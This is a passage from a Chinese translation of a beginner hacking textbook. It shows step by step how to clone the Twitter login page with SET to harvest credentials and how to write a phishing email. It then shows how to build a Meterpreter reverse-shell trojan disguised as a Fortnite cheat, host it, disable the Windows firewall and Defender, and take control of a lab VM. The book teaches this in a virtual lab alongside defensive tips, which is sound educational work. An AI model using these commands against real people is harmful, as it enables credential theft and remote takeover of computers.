

图 5-2：使用 SET 必须同意服务条款。

4. 输入 `1` 选择 Social-Engineering Attacks。这应该会带你进入攻击菜单，如 清单 5-2 所示。

```
   1) Spear-Phishing Attack Vectors 2) Website Attack Vectors 3) Infectious Media Generator 4) Create a Payload and Listener 5) Mass Mailer Attack --snip--
```

清单 5-2：SET 攻击菜单

5. 在攻击菜单下，输入 `2` 选择 Website Attack Vectors。这应该会带你进入 Website Attack Vectors 菜单，如 清单 5-3 所示。

```
   1) Java Applet Attack Method  2) Metasploit Browser Exploit Method 3) Credential Harvester Attack Method 4) Tabnabbing Attack Method 5) Web Jacking Attack Method --snip--
```

清单 5-3：SET Website Attack Vectors 菜单

6. 输入 `3` 选择 Credential Harvester Attack Method。这应该会打开 Credential Harvester Attack 菜单，提供几个选项，如 清单 5-4 所示。

```
   1) Web Templates 2) Site Cloner 3) Custom Import
```

清单 5-4：SET Credential Harvester Attack 菜单

7. 我们将使用第二个选项 Site Cloner 来制作一个 `clone`，即真实网站的精确副本，用于我们的钓鱼攻击。这种类型的钓鱼称为 `credential harvesting`，因为其目标是收集人们的 `credentials`，即用户名和密码。按 `2` 选择 Site Cloner 然后按 `ENTER`。

### 克隆登录页面

SET 的 Site Cloner 将帮助你设置几乎任何登录页面的克隆。它下载显示现有登录页面所需的所有代码，例如社交媒体平台、银行或电子邮件服务。正如我们在第 1 章使用浏览器检查工具时所看到的，这些代码是公开可用的。Site Cloner 然后使用下载的代码创建页面的精确副本。剩下的就是找到一种方法 trick 用户在克隆页面中输入其用户名和密码。

按照以下步骤克隆 Twitter 登录页面。

1. 首先，Site Cloner 会询问将存储受害者用户名和密码的机器的 IP 地址。默认情况下，提示会显示你的 Kali VM 的 IP 地址。在我的例子中，那就是 `10.0.9.4`，如 SET 提示所示：

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.0.9.4]:
```

如果你的 Kali VM 的 IP 地址不同，请记下来，因为稍后你需要它。按 `ENTER` 继续。

2. SET 接下来应询问你想要克隆的站点的 URL：

```
set:webattack> Enter the url to clone:
```

对于成功的凭据收割攻击，你需要克隆一个在同一屏幕上要求用户名和密码的登录页面。大多数在线服务，包括许多社交媒体网站，都符合这一描述，但一些银行网站和电子邮件网站，包括 Gmail 和 Outlook，会在不同屏幕上分别要求用户名和密码，以防止此类攻击。

我们将克隆 Twitter 登录页面。在 SET 窗口中输入 `https://twitter.com/login`：

```
set:webattack> Enter the url to clone: https://twitter.com/login
```

3. SET 现在应该会说它正在克隆网站。它可能会要求你再次按 `ENTER` 继续。如果 SET 要求确认其他任何内容，请按 `Y` 或 `ENTER`。

4. 片刻之后，你会看到一条确认 SET Credential Harvester Attack 正在运行的消息：

```
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

SET 已能够在你的 Kali VM 上启动一个临时 Web 服务器，受害者可以访问它。现在它正在等待受害者在网站上输入信息。

### 让我们收割一些凭据！

让我们测试我们的钓鱼网站是否有效。在保持终端窗口打开的同时，点击菜单面板上的 Kali 图标并前往 `Favorites`▶`Web Browser`。浏览器打开后，在地址栏中输入 `localhost`。你应该会看到几乎完美的 Twitter 主页副本，如 图 5-3 所示。（网页会不时变化，浏览器也会变化，因此你看到的内容可能略有不同。）判断该页面不真实的唯一方法是查看地址栏。



图 5-3：克隆的 Twitter 主页看起来与真实的一模一样。

首先，你应该看到你输入的地址（`localhost`）而不是真实地址（`https://twitter.com`）。其次，地址栏旁边没有安全站点锁图标，因此浏览器告诉你该页面不安全。

现在我们知道克隆站点看起来像真的一样，让我们看看它是否能捕获登录详细信息。点击 `Log in` 进入登录页面。输入一个虚构的用户名和密码，然后再次点击 `Log in`。

我输入的用户名为 `GeorgeJetson`，密码为 `Jane!!!`，如 图 5-4 所示。




图 5-4：向你的 SET 克隆站点输入虚假信息；切勿在钓鱼网站上输入你的真实用户名和密码。

一旦你提交虚假的登录凭据，`SET` 将把你的浏览器重定向到真正的 Twitter 网站，`https://twitter.com/`。你可以通过地址栏判断这是真实的网站，在那里你会看到锁形图标。`SET` 将受害者带到真实的登录页面，让他们以为自己输入的登录信息有误。这一次，他们在不知攻击者已窃取其凭据的情况下登录了真实的网站。

现在打开正在运行 `SET` 的终端窗口。如果你的钓鱼网站工作正常，你会看到一屏幕被提交的网页表单数据。如有需要向上滚动，你会看到你输入的用户名和密码：

```
[*] WE GOT A HIT! Printing the output:
...
POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=GeorgeJetson
POSSIBLE PASSWORD FIELD FOUND: session[password]=Jane!!!
```

如果 `SET` 没有检索到登录信息，再次填写克隆的表单。如果仍然找不到你输入的用户名和密码，请关闭 `SET` 并尝试克隆另一个站点。

只要 `SET` 正在运行，你就可以通过任何可以访问你的 Kali VM 网络的浏览器访问你的 Kali IP 地址来向你的表单提交用户名和密码。这意味着你可以启动你的 Windows VM，假装自己是浏览到 Kali VM IP 地址（10.0.9.4 或类似）的钓鱼受害者，并向假页面输入用户名和密码。

### 创建钓鱼邮件

钓鱼攻击的最后一步是创建并发送一封包含指向你的钓鱼站点 IP 地址链接的钓鱼邮件。记住，`SET` 的 Site Cloner 在你的 Kali VM 上运行着 Twitter 登录页面的虚假版本，因此它使用你的 Kali VM 的 IP 地址。在你的 Kali 或 Windows VM 中，登录你的电子邮件账户并撰写一封新邮件。你的钓鱼邮件可以简单到这样：

> `Subject: Unusual account activity`
> 
> `Message: Someone attempted to log in to your Twitter account from Budapest, Hungary. If this wasn't you, please log in to your account and check your Security settings: http://10.0.9.4.`

在 `SET` 运行时，将邮件发送给自己并在 Kali 或 Windows 10 VM 上打开它。点击链接应该会带你到克隆的钓鱼站点！

然而，大多数人可能不会点击邮件中的链接。邮件看起来不像来自 Twitter 的常规消息，而且链接显示的是 IP 地址而不是 Twitter URL。为了制造更具说服力的钓鱼诈骗，攻击者可能会复制一封来自 Twitter 的真实邮件，该邮件使用 Twitter 的标志和样式，然后将其粘贴到新消息中。然后他们会更改文本和链接，试图说服人们点击进入克隆站点。图 5-5 显示了我制作的一个示例。



图 5-5：我通过更改文本和超链接，将来自 Twitter 的真实邮件转换为钓鱼邮件。

我让它看起来像有人试图从朝鲜入侵用户的账户，以促使他们点击链接检查其“Security settings”。接下来，我为文本“Security settings”添加了一个超链接，将用户带到我的克隆登录页面。在大多数电子邮件程序中，你可以通过突出显示要变成链接的文本，点击链条图标（在 图 5-5 中框出），然后输入链接地址来插入超链接。随着可疑的 IP 地址隐藏在“Security settings”文本后面，人们更有可能点击进入钓鱼站点。

现在你了解了钓鱼攻击，让我们看看如何防范它们。

## 防范钓鱼攻击

你只需几个简单的提示就能保护自己免受电子邮件诈骗：

* 将鼠标悬停在电子邮件中的链接上（不要点击！）以查看链接地址是否可疑，因为它拼写错误或异常长/数字。当你这样做时，地址通常会出现在你的浏览器或电子邮件程序屏幕底部或附近。（你也可以使用 VirusTotal 检查链接地址是否存在恶意软件，就像我们在第 4 章中所做的那样。）
* 检查电子邮件的 `From:` 和 `To:` 字段，以确保两者都是真实的。注意发送者地址中是否有拼写错误或不同的域名，例如 `gmail.com` 而不是 `yourbank.com`。
* 如果有人要求你提供个人信息，请仔细考虑是谁在索取、索取什么以及为什么需要这些信息。
* 如果你对电子邮件的来源 ever 不确定，不要点击或打开任何内容。使用真实的电话号码（而不是邮件中提供的号码）致电该人或公司，以核实任何重要交易或紧急问题。

如果你怀疑一封电子邮件是假的，请打开一个单独的网页浏览器窗口，通过输入真实的 URL 或在线搜索企业名称来访问真实网站。再次检查地址栏，确保 URL 是你所期望的。即便如此，只有在网站安全时才在登录页面输入用户名和密码。你可以通过 URL 以 `https://` 开头且浏览器地址栏中出现安全网站锁形符号来判断网站是否安全。

## 要点

在本章中，你了解到社会工程师利用人类的情绪对受害者施加影响，诱使他们在现实中和在线上做出错误选择。你了解了最常见的在线社会工程攻击——钓鱼。

为了了解钓鱼攻击的简易性和有效性，你使用 Kali Linux 中的社会工程工具包 `SET` 克隆了一个登录页面，从而能够收集毫无防备用户的凭据。你创建了一封链接到克隆页面的钓鱼邮件，并看到了攻击者如何通过先使用真实邮件，然后更改文本和链接来创建更具说服力的邮件。

你学会了通过仔细查看任何要求你点击链接、打开文档或进行非常规操作的电子邮件中的 `From:` 和 `To:` 字段来保护自己免受钓鱼攻击。你还学会了通过将鼠标悬停在每个链接上并检查 URL 来检查链接。奇怪或拼写错误的网址，以及 URL 中异常长或数字的 IP 地址，都可能是该地址来自钓鱼攻击的线索。遇到疑问时，不要点击电子邮件中的任何链接。相反，打开一个单独的浏览器窗口，输入你拥有账户的真实网站的域名，并直接登录。

在下一章中，你将为你的黑客工具库添加另一项重要工具：恶意软件。恶意软件将允许你远程接管另一台计算机，以便窃取文件、记录击键，甚至访问用户的网络摄像头。

# 6 使用恶意软件进行远程入侵


在本章中，你将了解攻击者如何通过互联网使用恶意软件从世界任何地方感染和控制各种计算设备。*恶意软件* 是 *恶意软件* 的缩写，是指任何旨在窃取或损坏数据或破坏计算机系统或用户的软件。

如果攻击者能骗你打开恶意附件、视频或应用，他们就可以控制你的计算机、智能手机或其他互联网连接设备。为了保护自己，你需要了解黑帽黑客创建病毒并感染你的计算机是多么容易。一旦设备被感染，攻击者通常可以看到 *一切*——包括你的文件、你的击键、你的屏幕，甚至你的网络摄像头看到的内容！


## 引言

在本章中，你将在 Kali VM 上安全地创建一个病毒，并在虚拟网络中感染你的 Windows VM。然后你将从 Kali 工作站控制 Windows VM 并窃取数据、击键记录、网络摄像头视频等——就像攻击者那样。你将负责任地进行操作，以确保恶意软件不会逃逸到虚拟环境之外。在此过程中，你将学习如何保护自己免受互联网上大多数恶意软件的侵害。

为了执行我们的攻击，我们将使用 Kali 最著名的工具之一，`Metasploit`。`Metasploit Framework` 是由计算机安全公司 Rapid7 维护的开源渗透测试工具包。它被称为框架，因为它是一个用于开发、测试和执行漏洞利用的完整软件平台。`exploit` 是一种旨在利用计算机系统漏洞的攻击。

`Metasploit` 被称为黑客的瑞士军刀，因为它内置了许多有用的工具。事实上，`Metasploit` 包含多达 2,000 个漏洞利用，数量还在增长，其中包括针对 Windows、macOS、Linux、Microsoft Office、Adobe 产品、大多数浏览器、iOS、Android 等的漏洞利用。

## 构建你自己的病毒

我们将开始在 Kali VM 上构建恶意软件，以通过我们在第 3 章中创建的 PublicNAT 网络接管 Windows VM。具体来说，我们将创建一个 `trojan`，一种看起来无害但可以让攻击者控制你的计算机的恶意软件。特洛伊木马有时被称为 `remote access trojans` (`RATs`)，因为它们允许攻击者通过互联网从世界任何地方控制目标计算机——无需物理访问。

特洛伊木马通常伪装成人们会想下载并运行的文件，例如最新热门歌曲或电影的盗版副本，或流行视频游戏的作弊程序。作为示例，我们将我们的特洛伊木马命名为 `Fortnite_cheat_mode.exe`。登录你的 Kali VM，让我们创建一些恶意软件吧！你可能会惊讶于它的简单。

1. 在你的 Kali VM 中，点击左上角的 Kali 图标并前往 **08 - 利用工具**▶**Metasploit 框架**。如果要求输入 sudo 密码，请输入 `kali`。`Metasploit Framework` 控制台 (`msfconsole`) 将启动，通常在顶部显示有趣的 ASCII 文本艺术，如 图 6-1 所示。

2. 你应该会看到标记为 `msf6 >` 的命令提示符，简称为“Metasploit Framework，版本 6”。输入 `ip addr` 来检查 Kali VM 的 IP 地址并确保它已连接到 PublicNAT 网络：

```
msf6 > ip addr
```



图 6-1：Metasploit Framework 控制台的启动信息，底部左侧为 Metasploit `msf6 >` 命令提示符

3. 在 `eth0:` 部分下查找以 `inet` 开头后跟 IP 地址的行：

```
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000 link/ether 08:00:27:23:ff:90 brd ff:ff:ff:ff:ff:ff inet 10.0.9.x/24 brd 10.0.9.255 scope global noprefixroute eth0 1
```

只要地址以 `10.0.9` 开头 1，你就处于第 3 章中创建的 PublicNAT 网络中，可以开始了。记下 IP 地址；你需要在多个命令中输入它。如果未看到 `10.0.9.x` 作为你的 IP 地址，请返回第 3 章第 26 页创建 PublicNAT 网络，或第 27 页正确将 Kali VM 连接到该网络。

4. 输入以下两行，将 IP 地址中的 `x` 替换为刚刚查找的数字：

```
msf6 > msfvenom  -p  windows/meterpreter/reverse_tcp  \ > LHOST=10.0.9.x  -f  exe  -o  ~/Desktop/Fortnite_cheat_mode.exe
```

5. 你现在应该在桌面上看到一个名为 `Fortnite_cheat_mode.exe` 的文件，如 图 6-2 所示。如果看不到该文件，请打开文件资源管理器并前往 `/home/kali/Desktop/` 查找它。



图 6-2：`msfvenom` 工具创建名为 `Fortnite_cheat_mode.exe` 的特洛伊木马并将其放置在桌面（左下角）。

你现在已经创建了你的第一个特洛伊木马——做得好！所有操作仅需在步骤 4 中在 `msf6 >` 命令提示符下输入的两行即可。实际上，它只是一个长命令，但第一行末尾的反斜杠 (`\`) 让我们可以将命令继续到第二行。

这个命令到底做了什么？它告诉 `Metasploit` 的 `msfvenom` 工具创建一个包含 `Meterpreter` shell 的恶意软件，该接口将使我们能够从 Kali 对 Windows VM 进行命令行（shell）控制。我们通过键入 `LHOST=` 后跟 Kali VM 的 IP 地址来告诉 `Meterpreter` shell 从哪里接收命令。`-f` `exe` 选项告诉 `msfvenom` 输出的格式 (`-f`) 应为 Windows 可执行 (`exe`) 程序文件。`-o` 选项告诉 `msfvenom` 输出文件的名称和位置：一个名为 `Fortnite_cheat_mode.exe` 的文件，保存到桌面 (`~/Desktop/`)。

### 共享恶意软件

现在我们有了特洛伊木马 Windows 可执行文件，我们需要将其放到你的 Windows VM 上。通常攻击者会尝试通过电子邮件发送特洛伊木马，但许多电子邮件程序会扫描附件中的恶意软件，而且你也不想通过个人电子邮件账户发送特洛伊木马。相反，我们将创建一个共享文件夹，Windows 用户可以通过其网络浏览器浏览该文件夹。

1. 在 `msfconsole` 窗口中输入此命令，在大多数 Linux 计算机上共享网络文件夹的默认位置创建一个名为 `share` 的文件夹：

```
msf6 > sudo mkdir /var/www/html/share
```

2. 将特洛伊木马复制到新文件夹：

```
msf6 > sudo cp ~/Desktop/Fortnite_cheat_mode.exe /var/www/html/share
```

3. 启动 `Apache` Web 服务器应用程序，以便文件夹可以通过网络访问：

```
msf6 > sudo service apache2 start
```

4. 为确认特洛伊木马现在可供下载，请在 Kali VM 中打开网络浏览器并前往 `http://<10.0.9.x>/share`，将 `<10.0.9.x>` 替换为你的 Kali VM 的 IP 地址。你将看到类似 图 6-3 所示的网页。



图 6-3：多亏了 Kali 的 Apache Web 服务器，我们的特洛伊木马恶意软件现在可在（虚拟）网络上使用！

### 监听特洛伊木马回连

我们现在需要准备 `Metasploit` 以接收来自受感染 Windows 机器的传入连接（我们有时称之为 `phoning home`）。传入连接将使我们能够发送恶意命令远程控制机器。通常，攻击者会向数千名潜在受害者发送病毒邮件附件，等待其中哪些人打开附件并被感染。在我们的例子中，我们只感染一台 Windows VM。然而，通过遵循这些步骤，我们可以同样轻松地接收用于同时控制多台受感染计算机的连接。

1. 在 `msf6 >` 提示符下输入此命令，告诉 `Metasploit` 处理或接受来自受感染计算机的多个传入连接：

```
msf6 > use exploit/multi/handler
```

`msfconsole` 提示符将更改以告知我们 `multi/handler` 漏洞利用已激活。

2. 现在告诉 `Metasploit` 特洛伊木马的 `payload`——即我们交付的恶意程序——是一个 `Meterpreter` shell：

```
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
```

`msfconsole` 将回复 `PAYLOAD => windows/meterpreter/reverse_tcp` 以告知我们已选择 Meterpreter 有效载荷。


3. 输入你的 Kali VM 的 IP 地址以指示连接将进入的本地主机（记得填写最后一位数字）：

```
msf6 exploit(multi/handler) > set LHOST 10.0.9.x
```

Metasploit 将会回复 `LHOST => 10.0.9.x` 以表明本地主机选项已正确设置。

4. 最后，我们等待已久的时刻：启动漏洞利用！

```
msf6 exploit(multi/handler) > exploit -j
```

`-j` 选项告诉 Metasploit 在后台运行 handler，这样你就可以在等待受感染的机器连接到你的 Kali VM 时使用 `msfconsole`。Metasploit 将确认漏洞利用正在后台运行，准备在 `10.0.9.x:4444` 或你的 Kali VM 上的端口 4444 接受传入连接。

## 感染你的 Windows VM

我们的木马已准备就绪。现在是感染你的 Windows VM 的时候了。首先，我们将禁用几个 Windows 安全功能，这些功能本应使用户更难做一些愚蠢的事情，比如从互联网下载并打开一个可疑文件。然后，在这些保护措施关闭后，我们将正是去做那件愚蠢的事。

请记住，你的 Windows VM 是为你安全练习黑客技术而创建的。如果你弄坏了它，例如用木马感染它，你可以简单地删除 Windows VM 并创建一个新的。记住这一点，在 VirtualBox 中启动你的 Windows 10 VM，如果提示请输入用户名 `IEUser` 和密码 `Passw0rd!`，然后开始吧。

1. 在 Windows/Cortana 搜索栏中输入 `cmd` 以查找命令提示符。右键单击它并选择 **以管理员身份运行**。在询问是否允许此应用对你的设备进行更改的弹出窗口中，单击 **是的**。

2. 在出现的“管理员：命令提示符”窗口中，输入此命令以关闭你的 Windows VM 的防火墙：

```
C:\Windows\system32> netsh advfirewall set allprofiles state off
```

通常，*防火墙* 会阻止来自外部计算机的 unwanted 或恶意流量，并且可以阻止你的计算机与恶意服务器建立可疑连接。运行此命令后，你可能会看到弹出消息“打开 Windows 防火墙”。Windows 在警告你将防火墙关闭是危险的——确实如此！——但这正是我们想要的第一次远程入侵。

3. 接下来，我们将关闭 Windows Defender，另一个安全工具。在搜索栏中输入 `virus` 并打开 **病毒和威胁防护** 设置。

4. 单击 **管理设置** 并将实时保护和云提供的保护的切换按钮滑动到 **关闭**。Windows 将再次询问是否允许此应用对你的设备进行更改。单击 **是的**。你的 Windows 10 VM 现在和地球上四分之一的 PC 一样脆弱。

5. 打开 Edge 网页浏览器并访问 `http://<10.0.9.x>/share/`。

6. 单击你的木马并选择 **保存**，将文件下载到你的 Windows VM 的 `Downloads` 文件夹。

7. 真相的时刻：打开 Windows VM 的 `Downloads` 文件夹并双击木马可执行文件以运行它。

8. 原来 Windows 10 PC 还有一层病毒保护，可以防止我们刚刚犯的那种愚蠢错误：Windows Defender SmartScreen 会弹出警告，称它“阻止了一个未识别的应用启动”，如 图 6-4 所示。单击 **详细信息** 然后 **仍要运行**。

你现在已经控制了你的第一台计算机！你在 Windows VM 上看不到任何事情发生，但如果你切换回 Kali VM，你应该在 `msfconsole` 中看到类似以下内容：

```
[*] Sending stage (179779 bytes) to 10.0.9.5
[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:49830) at 2021-06-11 12:39:46 -0400
```

受感染的 Windows VM 已回调到 Kali 并建立了连接（也称为 *session*）。恭喜：Windows VM 现在正在等待你的命令！



图 6-4：Windows Defender SmartScreen 试图最后一次保护你的 Windows VM。

## 使用 Meterpreter 控制你的 Windows VM

现在我们已经在你的 Kali 和 Windows VM 之间建立了连接，我们准备好从 Metasploit 开始操纵 Windows 机器了。首先，在 Metasploit 终端窗口中输入 `sessions` 以查看活动 Metasploit 连接的列表：

```
msf6 exploit(multi/handler) > sessions
Active sessions
=============== Id  Name  Type                     Information                       Connection --  ----  ----                     -----------                       ---------- 1         meterpreter x86/windows  MSEDGEWIN10\IEUser @ MSEDGEWIN10  10.0.9.4:4444 -> 10.0.9.5:63750 (10.0.9.5)
```

如你所见，我们已连接到名为 MSEdgeWin10 的受感染 Windows 10 机器，用户名为 *IEUser*——那就是你的 Windows 10 VM！我们的会话 ID 号为 1。如果你也在其他机器上运行了木马，你会看到列出多个会话，每个会话都有自己的 ID 号。同样，如果你需要重新建立与 Windows VM 的连接，它将列出不同的 ID 号，例如 2。

输入 `sessions -i 1` 以开始与 Windows VM 交互：

```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter >
```

命令提示符更改为 `meterpreter >` 以表明我们正在与远程 Windows VM 上的 Meterpreter shell 交互。让我们尝试几个命令。输入 `sysinfo` 以查看有关计算机的一些信息，例如其操作系统（OS）、系统语言等：

```
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (Build 17763).--snip--
```

现在让我们尝试另一个命令，`pwd`，缩写为 *打印工作目录*，以查看 Meterpreter shell 从哪里运行：

```
meterpreter > pwd
C:\Users\IEUser\Downloads
```

这告诉我们 Meterpreter shell 正在从 Windows VM 的 `Downloads` 目录运行——我们的木马就位于那里。

输入 `help` 以列出你可以在 Meterpreter shell 中远程在 Windows VM 上运行的一些最常见命令。有运行程序、终止正在运行的进程、关闭或重新启动远程计算机、清除事件日志（以便在黑客攻击时掩盖痕迹）、捕获击键、截屏以及监视远程用户桌面或网络摄像头的命令，仅举几例。总共，攻击者可以使用超过 100 个命令来几乎完全控制一台计算机。这些命令的部分列表显示在 图 6-5。

为了了解威胁的严重性到底如何，让我们看看攻击者通过感染文件有多容易入侵我们的文件、键盘、网络摄像头等。并非我们使用的每个命令每次尝试都会有效；你可能需要多次尝试。然而，探索这些命令造成的破坏应该能促使你 *永远不要* 从随机网页或电子邮件附件安装软件。

